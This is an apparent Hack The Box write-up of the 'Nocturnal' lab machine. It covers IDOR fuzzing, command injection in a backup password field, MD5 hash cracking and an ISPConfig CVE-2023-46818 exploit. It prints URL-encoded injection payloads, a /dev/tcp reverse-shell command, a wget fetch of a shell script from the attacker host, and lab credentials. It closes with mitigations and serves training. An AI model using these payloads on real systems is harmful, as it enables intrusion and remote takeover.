

# Write-Up: Nocturnal - Easy | [Machines](../../../MACHINES.md)

>  **Platform**: Hack The Box\
>  **Operating System**: Linux\
>  **Difficulty**: Easy\
>  **Author**: Fokos Nikolaos\
>  **Completion Date**: 08-07-2025\
>  **Objective**: Capture `user.txt` and `root.txt` flags

---

# Banner



---

# Summary

The **Nocturnal** machine required a combination of web exploitation, credential harvesting, and privilege escalation to obtain both flags. Initial enumeration revealed a file upload functionality that was vulnerable to ***Insecure Direct Object Reference (IDOR)***, allowing access to other users’ files. By brute-forcing the `username` parameter, other users where found, and an `.odt` document containing the **admin password** was retrieved. With these credentials, access to the **admin panel** was gained. Further enumeration uncovered a **command injection vulnerability** in the backup password field, which was leveraged to obtain a **reverse shell** by manipulating the `password` parameter. Lateral movement was achieved through cracking password hashes from a local database to obtain **user credentials**, granting user access via SSH. **Privilege escalation** was accomplished by identifying a local ISPConfig service and exploiting a known vulnerability, ultimately leading to root access.

---

## Target Enumeration

### Nmap scan

Initializing an `nmap` scan, the target's ports are enumerated.

#### Parameters:
- `-sV` Initiate a version scan for found services.
- `-sC` Execute default scripts from Nmap Scripting Engine (NSE).

```bash
──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.129.19.114       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 03:19 EDT
Nmap scan report for 10.129.19.114
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.69 seconds
```

#### Results:
- `22/tcp: open - ssh - OpenSSH 8.2p1`
- `80/tcp: open - http - nginx 1.18.0`

Nmap reports the redirect at `http://nocturnal.htb/`, and by adding the DNS on `/etc/hosts`, we'll be able to resolve it.

```bash
┌──(kali㉿kali)-[~]
└─$ echo "10.129.19.114 nocturnal.htb" | sudo tee -a /etc/hosts   
[sudo] password for kali: 
10.129.19.114 nocturnal.htb
```

We should now be able to visit the page at `http://nocturnal.htb`.

---

## Web Enumeration

Enumerating the page, it seems that nocturnal.htb offers file upload services for remote access etc. We can Login to an account or Register a new one, but before tinkering, we search for other endpoints using `dirsearch`.

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u nocturnal.htb
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                          
 (_||| _) (/_(_|| (_| )                                                                                                   
                                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/_nocturnal.htb/_25-08-16_03-31-05.txt

Target: http://nocturnal.htb/

[03:31:05] Starting:                                                                                                      
[03:31:16] 302 -    0B  - /admin.php  ->  login.php                         
[03:31:21] 301 -  178B  - /backups  ->  http://nocturnal.htb/backups/       
[03:31:21] 403 -  564B  - /backups/                                         
[03:31:23] 302 -    0B  - /dashboard.php  ->  login.php                     
[03:31:29] 200 -  644B  - /login.php                                        
[03:31:29] 302 -    0B  - /logout.php  ->  login.php                        
[03:31:34] 200 -  649B  - /register.php                                     
[03:31:38] 403 -  564B  - /uploads                                          
[03:31:38] 403 -  564B  - /uploads/
[03:31:38] 403 -  564B  - /uploads_admin                                    
[03:31:38] 403 -  564B  - /uploads/affwp-debug.log
[03:31:38] 403 -  564B  - /uploads/dump.sql
[03:31:39] 302 -    3KB - /view.php  ->  login.php                          
                                                                             
Task Completed                 
```

We find additional endpoints, most returned `403 Forbidden`, but they are useful to understand the structure of the web page. An admin page is found, upload and backup endpoints possibly storing the files.

Trying simple SQL Injection attacks against the Login page like `'admin OR 1=1 --` had no result, meaning that Queries are handled correctly. Proceeding to create a new account, we are being redirected to an upload form. In this form Excel, Word, and PDF files can be uploaded.

Trying to upload a simple, empty `.txt` file we can confirm that supported extensions are `pdf, doc, docx, xls, xlsx, odt`.

Uploading a dummy PDF this time, it's now available in **Your Files** to be downloaded.

Inspecting the requests and responses made, using `burpsuite`, we find that each file is fetched based on some critical parameters. Specifically the username has a significant role for file search. We find the following GET header: `GET /view.php?username=anon&file=test.pdf HTTP/1.1`.

---

## Exploitation

Such misconfiguration allows us to change user by just specifying the correct username as a parameter. Trying `http://nocturnal.htb/view.php?username=admin&file=test.pdf`, shows us a `File does not exist.` error message. Trying another user like `anon2` we get a `User not found.` message, confirming the existence of user `admin`.

We can try brute-forcing the username parameter, using `gobuster`. Our session cookie is needed, since Login is required to view uploaded files. We can find the `PHPSESSID` cookie under **Inspect > Network > [GET request] > Cookies** on **Web Developer Tools** of our browser.

```bash
┌──(kali㉿kali)-[/usr/share/seclists/Usernames]
└─$ gobuster fuzz -H "Cookie: PHPSESSID=v99skk37hhmkh7lo40j57csupe" -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --exclude-length 2985       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
[+] Method:           GET
[+] Threads:          10
[+] Wordlist:         /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
[+] Exclude Length:   2985
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
===============================================================
Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=3037] [Word=admin] http://nocturnal.htb/view.php?username=admin&file=test.pdf
                                                                                                                          
Found: [Status=200] [Length=3113] [Word=amanda] http://nocturnal.htb/view.php?username=amanda&file=test.pdf
                                                                                                                          
Found: [Status=200] [Length=3037] [Word=tobias] http://nocturnal.htb/view.php?username=tobias&file=test.pdf
                                                                                                                          
Found: [Status=200] [Length=3186] [Word=anon] http://nocturnal.htb/view.php?username=anon&file=test.pdf
```

At the first few thousand usernames, `gobuster` finds the following registered users: `admin`, `amanda`, `tobias` and `anon`. We already tried user `admin` but no files were found.

Continuing the search with `amanda` and `tobias`, we find a `privacy.odt` (Open Document Text) file on user `amanda`.

Downloading and opening the file using `libreoffice`, we find a text, informing `amanda` about the new login password: `arHkG7HAI68X8s1J`.

We can now login as `amanda`, and gain access to the **Admin Panel**.

At the bottom of the panel, we can enter a password to create a backup, of the web page source files and uploads. Entering a random password, a log appears informing us about the process, and which files are saved in the backup zip. We can download the zip, including the backup of the source, but nothing useful is found.

Inspecting the admin panel page, there is no particular input sanitization on the backup password field, which means that we may be able to execute commands on the server.

Specifically we can manipulate the request parameters: `password=&backup=`.

With some tinkering, sending `password=%0abash%09"whoami"&backup=` in `burpsuite` repeater, returns a response with the current system user `www-data`. This command makes a new line and executes with bash `whoami` (**[!]**: *In web format %0a is new-line and %09 a space character*).

```html
<pre>
      sh: 1: backups/backup_2025-08-16.zip: Permission denied
      www-data
</pre>
```

Since we can execute system commands, we proceed to forge a **Reverse Shell** with no result. The input `password=%0abash%09"bash%09-i%09>&%09/dev/tcp/10.10.14.66/8888%090>&1"&backup=`, upon execution, creates the reverse shell but immediately exits.

```html
<pre>
      sh: 3: backups/backup_2025-08-16.zip: not found
      www-data@nocturnal:~/nocturnal.htb$ exit
</pre>
```

We will create a new file `shell.sh` where we will just write the command `bash -c "bash -i >& /dev/tcp/10.10.14.66/8888 0>&1"`. We save the file, and then proceed to transfer it to the target's system using `wget`. 

Starting a Python HTTP server on port 80 with `python -m http.server 80`, we parse the following input `password=%0abash%09"wget%09http://10.10.14.66/shell.sh"%0a&backup=` to download our shell. 

We can confirm the successful file transfer, by inspecting the response page.

```html
<pre>
      sh: 3: backups/backup_2025-08-16.zip: not foun--2025-08-16 10:31:16--  http://10.10.14.66/shell.sh
      Connecting to 10.10.14.66:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 52 [text/x-sh]
      Saving to: 'shell.sh'

           0K                                                       100% 6.13M=0s

      2025-08-16 10:31:16 (6.13 MB/s) - 'shell.sh' saved [52/52]
</pre>
```

We change the execution permissions with `password=%0abash%09"chmod%09777%09shell.sh"%0a&backup=`, and execute it with `password=%0abash%09"./shell.sh"%0a&backup=`. 

Looking at our listener, we have a reverse shell!

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.66] from (UNKNOWN) [10.129.19.114] 32906
bash: cannot set terminal process group (1030): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nocturnal:~/nocturnal.htb$ 
```

---

## User Flag

Having the initial foothold on the target machine, we proceed to search the system for useful files, that will grant us user access. Currently the directory is `~/nocturnal.htb`, with a `pwd` it's noticed that this is the sub-directory of the domain and it's source tree.

```bash
www-data@nocturnal:~/nocturnal.htb$ pwd
pwd
/var/www/nocturnal.htb
```

Changing directory to `..` we find the nocturnal database.

```bash
www-data@nocturnal:~/nocturnal.htb$ cd ..
cd ..
www-data@nocturnal:~$ ls
ls
html
ispconfig
nocturnal.htb
nocturnal_database
php-fcgi-scripts
www-data@nocturnal:~$ ls nocturnal_database
ls nocturnal_database
nocturnal_database.db
```

We can view the database using `sqlite3` but first we will change to a proper shell, to avoid possible issues.

```bash
ww-data@nocturnal:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Proceeding to view the database, user password hashes are found.

```bash
www-data@nocturnal:~$ cd nocturnal_database
cd nocturnal_database
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db 
sqlite3 nocturnal_database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
uploads  users  
sqlite> select * from users;
select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
8|anon|2ae66f90b7788ab8950e8f81b829c947
```

The password hashes are type of `md5-raw` and can be cracked with `john`.

### Password of `admin`

The admin password is of unknown format or has been salted and therefore could not be cracked.

### Password of `tobias`

```bash
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
slowmotionapocalypse (?)     
1g 0:00:00:00 DONE (2025-08-16 06:41) 7.142g/s 26383Kp/s 26383Kc/s 26383KC/s slp312..slow86
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

### Password of `kavi`

The password of `kavi` could not be found by `john` with the wordlist `rockyou.txt` but **[CrackStation](https://crackstation.net/)**, found it as `kavi`.

### Password of `e0Al5`

Same as `admin`, the hash is of unknown format or salted.

### Results

The final available credentials can be summed as follows.

Username: `admin` Password:`?`
Username: `tobias` Password: `slowmotionapocalypse`
Username: `kavi` Password:`kavi`
Username: `e0Al5` Password:`?`

Having available some user credentials, we check the `/home` directory or `/etc/passwd` to find the system users.

```bash
www-data@nocturnal:~/nocturnal_database$ ls /home
ls /home
tobias
```

Since `tobias` is the system user, we proceed to connect remotely via SSH.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh tobias@10.129.19.114
tobias@10.129.19.114's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 16 Aug 2025 10:58:01 AM UTC

  System load:           0.01
  Usage of /:            56.8% of 5.58GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             238
  Users logged in:       0
  IPv4 address for eth0: 10.129.19.114
  IPv6 address for eth0: dead:beef::250:56ff:fe94:d6b1


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Aug 16 10:58:34 2025 from 10.10.14.66
tobias@nocturnal:~$ 
```

The `user.txt` flag can be found under `/home/tobias`.

---

## Root Flag

To escalate our privileges, a `sudo` permission check is initiated with `sudo -l`, searching for binaries `tobias` can execute as `root`, but had no result.

```bash
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias: 
Sorry, user tobias may not run sudo on nocturnal.
```

Trying to identify possible tcp/udp connections with **socket statistics** utility, `ss -tuln` is executed.

```bash
tobias@nocturnal:~$ ss -tuln
Netid      State       Recv-Q      Send-Q             Local Address:Port              Peer Address:Port      Process      
udp        UNCONN      0           0                  127.0.0.53%lo:53                     0.0.0.0:*                      
udp        UNCONN      0           0                        0.0.0.0:68                     0.0.0.0:*                      
tcp        LISTEN      0           70                     127.0.0.1:33060                  0.0.0.0:*                      
tcp        LISTEN      0           151                    127.0.0.1:3306                   0.0.0.0:*                      
tcp        LISTEN      0           10                     127.0.0.1:587                    0.0.0.0:*                      
tcp        LISTEN      0           511                      0.0.0.0:80                     0.0.0.0:*                      
tcp        LISTEN      0           4096                   127.0.0.1:8080                   0.0.0.0:*                      
tcp        LISTEN      0           4096               127.0.0.53%lo:53                     0.0.0.0:*                      
tcp        LISTEN      0           128                      0.0.0.0:22                     0.0.0.0:*                      
tcp        LISTEN      0           10                     127.0.0.1:25                     0.0.0.0:*                      
tcp        LISTEN      0           128                         [::]:22                        [::]:* 
```

A connection at `localhost:8080` is found to be hosted, trying to connect to the service, we quit our current SSH session and connect to the one we found.

```bash
tobias@nocturnal:~$ exit
logout
Connection to 10.129.19.114 closed.
                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ ssh -L 8888:127.0.0.1:8080 tobias@10.129.19.114
tobias@10.129.19.114's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 16 Aug 2025 11:09:32 AM UTC

  System load:           0.03
  Usage of /:            56.8% of 5.58GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             240
  Users logged in:       0
  IPv4 address for eth0: 10.129.19.114
  IPv6 address for eth0: dead:beef::250:56ff:fe94:d6b1


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Aug 16 11:09:32 2025 from 10.10.14.66
```

On our own machine, visiting `localhost:8888` should connect us to `tobias` local server.

Upon connecting, a login page is found. Trying the already known credentials `tobias:slowmotionapocalypse` doesn't seem to work.

Switching to our shell we search the filesystem for all references to `ispconfig`.

```bash
tobias@nocturnal:~$ find / -iname ispconfig
find: ‘/boot/lost+found’: Permission denied
find: ‘/run/udisks2’: Permission denied
find: ‘/run/user/1000/inaccessible’: Permission denied
find: ‘/run/sudo’: Permission denied
find: ‘/run/cryptsetup’: Permission denied
find: ‘/run/multipath’: Permission denied
find: ‘/run/systemd/unit-root’: Permission denied
find: ‘/run/systemd/inaccessible’: Permission denied
find: ‘/run/lvm’: Permission denied
find: ‘/run/lock/lvm’: Permission denied
find: ‘/run/initramfs’: Permission denied
find: ‘/root’: Permission denied
/var/www/ispconfig
/var/www/php-fcgi-scripts/ispconfig
find: ‘/var/log/mysql’: Permission denied
/var/log/ispconfig
```

Searching the directories, we find under `/var/log/ispconfig/` an `auth.log` file, containing the credentials used for successful login.

```bash
tobias@nocturnal:/var/log/ispconfig$ ls
auth.log
tobias@nocturnal:/var/log/ispconfig$ cat auth.log 
Successful login for user 'admin'  from 127.0.0.1 at 2025-04-09 10:19:13 with session ID vo10b400dv579klascjkkf1568
Successful login for user 'admin'  from 127.0.0.1 at 2025-04-09 10:54:48 with session ID k6cfshre0jfnp81hetdrc1c67a
```

The log reports successful logins as the user `admin`. Since `tobias` is the only user in the system, we can suspect that is also in control of the local ISPConfig instance, possibly using the same credentials but with different username.

Back at the ISPConfig login page, we enter this time `admin:slowmotionapocalypse`, proving a credential re-cycling situation. After logging in, under **Help > Version**, the service's version can be found as `3.2.10p1`. 

Looking for known vulnerabilities for the specific version of ISPConfig, we find [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818), that discloses a ***PHP code injection*** vulnerability, found in versions `< 3.2.11p1`

Searching for relevant exploits with `searchsploit` the following options are found.

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit ispconfig    
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
ISPConfig - (Authenticated) Arbitrary PHP Code Execution (Metasploit)                   | php/remote/29322.rb
ISPConfig 2.2.2/2.2.3 - 'Session.INC.php' Remote File Inclusion                         | php/webapps/27845.php
ISPConfig 2.2.3 - Multiple Remote File Inclusions                                       | php/webapps/28027.txt
ISPConfig 3.0.5.4p6 - Multiple Vulnerabilities                                          | php/webapps/37259.txt
ISPConfig 3.0.54p1 - (Authenticated) Admin Privilege Escalation                         | linux/webapps/34241.txt
ISPConfig < 3.1.13 - Remote Command Execution                                           | php/webapps/45534.py
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

None of the found exploits seem to work on the version we are working on. Searching further on the web, a [PoC](https://github.com/ajdumanhug/CVE-2023-46818.git) (Proof of Concept) is found.

The repository can be cloned using `git`.

```bash
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/ajdumanhug/CVE-2023-46818.git
Cloning into 'CVE-2023-46818'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 21 (delta 4), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (21/21), 8.57 KiB | 2.14 MiB/s, done.
Resolving deltas: 100% (4/4), done.
```

This script achieves PHP code injection by exploiting the ***ISPConfig language file editor***. Specifically if `admin_allow_langedit` is enabled, a user, authenticated as admin (Super-user), can execute arbitrary code on the server.

```bash
┌──(kali㉿kali)-[~/CVE-2023-46818]
└─$ python CVE-2023-46818.py http://127.0.0.1:8888 admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_dfdef813e622734891b31322
[+] CSRF Key: 476c0eb6eb7f7d8a91a6a64696f3f94d4d4ba336
[+] Injecting shell payload...
[+] Shell written to: http://127.0.0.1:8888/admin/sh.php
[+] Launching shell...

ispconfig-shell# 
```

The `root.txt` flag can be found under `/root`.

---

## Vulnerabilities

- ***Insecure Direct Object Reference (IDOR)***
    - **Type**: Access Control Misconfiguration.

    - **Description**: The `view.php` endpoint allowed users to manipulate the username parameter to access files belonging to other accounts.

    - **Impact**: Unauthorized disclosure of sensitive user files, including credentials. 

    - **Mitigation**: Enforce strict server-side authorization checks to ensure users can only access their own uploaded files.

- ***Command Injection in Backup Function***
    - **Type**: Command Injection.

    - **Description**: The backup password input was unsanitized and concatenated into a shell command, enabling arbitrary command execution.

    - **Impact**: Full remote code execution on the target's server.

    - **Mitigation**: Properly sanitize and validate user inputs, and avoid directly passing input into shell commands.


- ***Weak/Reusable Credentials***
    - **Type**: Credential Management Flaw.

    - **Description**: User passwords were stored as weak or crackable MD5 hashes, and credentials were reused across multiple services (e.g., nocturnal.htb, SSH, ISPConfig).

    - **Impact**: Allows an attacker to escalate privileges via password reuse.

    - **Mitigation**: Enforce strong password policies, use modern hashing algorithms, and prevent credential reuse across services.


- ***Vulnerable ISPConfig Installation***
    - **Type**: Outdated Software / Known Exploitable Version.

    - **Description**: ISPConfig version `3.2.10p1` was deployed with known privilege escalation vulnerabilities.

    - **Impact**: Attackers could gain administrative privileges and execute arbitrary PHP code, leading to full root compromise.

    - **Mitigation**: Keep third-party applications up to date and monitor for known CVEs affecting deployed software.

---

## Learning Outcome

Through exploiting **Nocturnal**, the following skills and concepts were reinforced:

  - ***Enumeration Techniques***
    - Using nmap, dirsearch, and gobuster to discover services, endpoints, and hidden parameters.

  - ***Exploitation of Access Control Flaws***
    - Identifying and leveraging IDOR vulnerabilities to access unauthorized resources.

  - ***Command Injection & Reverse Shells***
    - Exploiting unsanitized input fields to achieve remote code execution and establish shells.

  - ***Credential Cracking & Lateral Movement***
    - Cracking MD5 hashes with `john` and leveraging found credentials for SSH access.

  - ***Privilege Escalation***
    - Identifying locally exposed services (ISPConfig), and exploiting outdated software to gain root privileges.

  - ***Defense Awareness***
    - Recognizing the importance of secure coding practices, strong credential management, and timely patching of third-party software.

---

## Tools Used

`burpsuite`, `dirsearch`, `find`, `git`, `gobuster`, `john`, `netcat`, `nmap`, `searchsploit`, `sqlite3`, `ssh`, `ss`, `vim`, `wget`

---

## References

- [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- https://seclists.org/fulldisclosure/2023/Dec/2
- https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/
- https://sploitus.com/exploit?id=1337DAY-ID-39189